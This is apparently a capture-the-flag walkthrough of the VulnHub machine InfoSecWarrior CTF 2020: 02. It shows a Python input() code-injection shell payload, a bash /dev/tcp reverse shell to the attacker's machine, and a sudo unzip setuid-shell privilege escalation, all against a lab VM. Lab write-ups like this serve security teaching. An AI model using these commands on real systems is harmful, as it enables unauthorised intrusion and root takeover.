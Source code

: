 <h1>INFOSECWARRIOR CTF 2020: 02</h1>

Today, we'll be looking at the infosecwarrior level 2 machine on vulnhub.

You can download the mahcine [here](https://www.vulnhub.com/entry/infosecwarrior-ctf-2020-02,447/).

Let's scan the machine with nmap.

```nmap -sS -A -p- 192.168.233.103```

```
┌──(root㉿kali)-[~]
└─# nmap -sS -A -p- 192.168.233.103
Starting Nmap 7.93 ( https://nmap.org ) at 2023-06-30 09:00 EDT
Nmap scan report for 192.168.233.103
Host is up (0.00044s latency).
Not shown: 65533 closed tcp ports (reset)
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 89f21b40c40c3c7939739dfcccab2b0a (RSA)
|   256 05dbcf2990f6e43f4f74c9d257816eff (ECDSA)
|_  256 9a7df5dd9051b2eb3c33369f250e8c21 (ED25519)
56563/tcp open  unknown
| fingerprint-strings: 
|   GenericLines: 
|     Welcome to 
|     ____ __ __ _ 
|     ___/ ___| ___ __\x20\x20 / /_ _ _ __ _ __(_) ___ _ __ 
|     \x20/ _ / __\x20\x20/\x20/ / _` | '__| '__| |/ _ \| '__|
|     |__) | __/ (__ \x20V V / (_| | | | | | | (_) | | 
|     |___|_| |_|_| ___/____/ ___|___| _/_/ __,_|_| |_| |_|___/|_| 
|     Please input number of ping packet you want to send??: Traceback (most recent call last):
|     File "./script.py", line 18, in <module>
|     int(input(' Please input number of ping packet you want to send??: '))
|     File "<string>", line 0
|     SyntaxError: unexpected EOF while parsing
|   NULL: 
|     Welcome to 
|     ____ __ __ _ 
|     ___/ ___| ___ __\x20\x20 / /_ _ _ __ _ __(_) ___ _ __ 
|     \x20/ _ / __\x20\x20/\x20/ / _` | '__| '__| |/ _ \| '__|
|     |__) | __/ (__ \x20V V / (_| | | | | | | (_) | | 
|     |___|_| |_|_| ___/____/ ___|___| _/_/ __,_|_| |_| |_|___/|_| 
|_    Please input number of ping packet you want to send??:
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port56563-TCP:V=7.93%I=7%D=6/30%Time=649ED215%P=x86_64-pc-linux-gnu%r(N
SF:ULL,216,"Welcome\x20to\x20\r\n\x20\r\n\r\n\x20\x20___\x20\x20\x20\x20\x
SF:20\x20\x20\x20__\x20\x20\x20\x20\x20\x20____\x20\x20\x20\x20\x20\x20\x2
SF:0\x20\x20\x20__\x20\x20\x20\x20\x20\x20\x20\x20__\x20\x20\x20\x20\x20\x
SF:20\x20\x20\x20\x20\x20\x20\x20\x20_\x20\x20\x20\x20\x20\x20\x20\x20\x20
SF:\x20\x20\x20\r\n\x20\|_\x20_\|_\x20__\x20\x20/\x20_\|\x20___/\x20___\|\
SF:x20\x20___\x20\x20__\\\x20\\\x20\x20\x20\x20\x20\x20/\x20/_\x20_\x20_\x
SF:20__\x20_\x20__\(_\)\x20___\x20\x20_\x20__\x20\r\n\x20\x20\|\x20\|\|\x2
SF:0'_\x20\\\|\x20\|_\x20/\x20_\x20\\___\x20\\\x20/\x20_\x20\\/\x20__\\\x2
SF:0\\\x20/\\\x20/\x20/\x20_`\x20\|\x20'__\|\x20'__\|\x20\|/\x20_\x20\\\|\
SF:x20'__\|\r\n\x20\x20\|\x20\|\|\x20\|\x20\|\x20\|\x20\x20_\|\x20\(_\)\x2
SF:0\|__\)\x20\|\x20\x20__/\x20\(__\x20\\\x20V\x20\x20V\x20/\x20\(_\|\x20\
SF:|\x20\|\x20\x20\|\x20\|\x20\x20\|\x20\|\x20\(_\)\x20\|\x20\|\x20\x20\x2
SF:0\r\n\x20\|___\|_\|\x20\|_\|_\|\x20\x20\\___/____/\x20\\___\|\\___\|\x2
SF:0\\_/\\_/\x20\\__,_\|_\|\x20\x20\|_\|\x20\x20\|_\|\\___/\|_\|\x20\x20\x
SF:20\r\n\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\
SF:x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20
SF:\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x2
SF:0\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x
SF:20\x20\x20\x20\x20\r\n\r\n\r\n\x20Please\x20input\x20number\x20of\x20pi
SF:ng\x20packet\x20you\x20want\x20to\x20send\?\?:\x20")%r(GenericLines,30B
SF:,"Welcome\x20to\x20\r\n\x20\r\n\r\n\x20\x20___\x20\x20\x20\x20\x20\x20\
SF:x20\x20__\x20\x20\x20\x20\x20\x20____\x20\x20\x20\x20\x20\x20\x20\x20\x
SF:20\x20__\x20\x20\x20\x20\x20\x20\x20\x20__\x20\x20\x20\x20\x20\x20\x20\
SF:x20\x20\x20\x20\x20\x20\x20_\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x2
SF:0\x20\r\n\x20\|_\x20_\|_\x20__\x20\x20/\x20_\|\x20___/\x20___\|\x20\x20
SF:___\x20\x20__\\\x20\\\x20\x20\x20\x20\x20\x20/\x20/_\x20_\x20_\x20__\x2
SF:0_\x20__\(_\)\x20___\x20\x20_\x20__\x20\r\n\x20\x20\|\x20\|\|\x20'_\x20
SF:\\\|\x20\|_\x20/\x20_\x20\\___\x20\\\x20/\x20_\x20\\/\x20__\\\x20\\\x20
SF:/\\\x20/\x20/\x20_`\x20\|\x20'__\|\x20'__\|\x20\|/\x20_\x20\\\|\x20'__\
SF:|\r\n\x20\x20\|\x20\|\|\x20\|\x20\|\x20\|\x20\x20_\|\x20\(_\)\x20\|__\)
SF:\x20\|\x20\x20__/\x20\(__\x20\\\x20V\x20\x20V\x20/\x20\(_\|\x20\|\x20\|
SF:\x20\x20\|\x20\|\x20\x20\|\x20\|\x20\(_\)\x20\|\x20\|\x20\x20\x20\r\n\x
SF:20\|___\|_\|\x20\|_\|_\|\x20\x20\\___/____/\x20\\___\|\\___\|\x20\\_/\\
SF:_/\x20\\__,_\|_\|\x20\x20\|_\|\x20\x20\|_\|\\___/\|_\|\x20\x20\x20\r\n\
SF:x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20
SF:\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x2
SF:0\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x
SF:20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\
SF:x20\x20\x20\r\n\r\n\r\n\x20Please\x20input\x20number\x20of\x20ping\x20p
SF:acket\x20you\x20want\x20to\x20send\?\?:\x20Traceback\x20\(most\x20recen
SF:t\x20call\x20last\):\r\n\x20\x20File\x20\"\./script\.py\",\x20line\x201
SF:8,\x20in\x20<module>\r\n\x20\x20\x20\x20num\x20=\x20int\(input\('\x20Pl
SF:ease\x20input\x20number\x20of\x20ping\x20packet\x20you\x20want\x20to\x2
SF:0send\?\?:\x20'\)\)\r\n\x20\x20File\x20\"<string>\",\x20line\x200\r\n\x
SF:20\x20\x20\x20\r\n\x20\x20\x20\x20\^\r\nSyntaxError:\x20unexpected\x20E
SF:OF\x20while\x20parsing\r\n");
MAC Address: 08:00:27:D7:85:00 (Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: Linux 4.X|5.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
OS details: Linux 4.15 - 5.6
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE
HOP RTT     ADDRESS
1   0.44 ms 192.168.233.103

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 26.44 seconds
```

The machine is running ssh and another service that looks like it's executing a python script.

Let's connect to it with netcat.

```nc -nv 192.168.233.103 56563```

It's sending ping packets.

![](pics/pic1.png)

This might be vulnerable to command injection.

I tried to execute commands on the system, but I failed.

So, I searched online for python input command injection and found this great article [here](https://www.stackhawk.com/blog/command-injection-python/).

This command can be used to open a shell: ```__import__('os').system('/bin/bash')```

![](pics/pic2.png)

I then found the note in the home directory of the user **bla1**.

It contains the password of the user **bla2**.

But first we need to decode it using base64.

```echo "czNjcjN0" | base64 -d```

We got the password!

![](pics/pic3.png)

I tried to ssh into user **bla2**, but I couldn't.

![](pics/pic4.png)

After that, I looked at the hint from ssh.

And I looked for the hostname and the codename.

```hostname```

```cat /etc/os-release | grep CODENAME```

![](pics/pic5.png)

We can see 4 users including **ck04** in the home directory.

![](pics/pic6.png)

I then tried using those as credentials and got in.

We got the user flag!

I then opened a bash shell.

![](pics/pic7.png)

The shell wasn't interactive so I opened a reverse shell on my local machine.

```bash -i >& /dev/tcp/192.168.233.102/4444 0>&1```

![](pics/pic8.png)

You can use these two commands to make your shell more stable.

```python3 -c 'import pty;pty.spawn("/bin/bash")'```

```export TERM=xterm```

I then used ```sudo -l``` and found that we can run any command through the user **bla**.

We can use that to open a shell as **bla**.

![](pics/pic9.png)

I then used ```sudo -l``` again and found that we can run unzip as root.

![](pics/pic10.png)

Let's search for **unzip** on [gtfobins](https://gtfobins.github.io/).

![](pics/pic11.png)

We can run the following commands to esculate to root.

```cd /tmp```

```cp /bin/sh .```

```chmod +s sh```

```zip privesc.zip sh```

```sudo unzip -K privesc.zip```

```./sh -p```

We are root!

![](pics/pic12.png)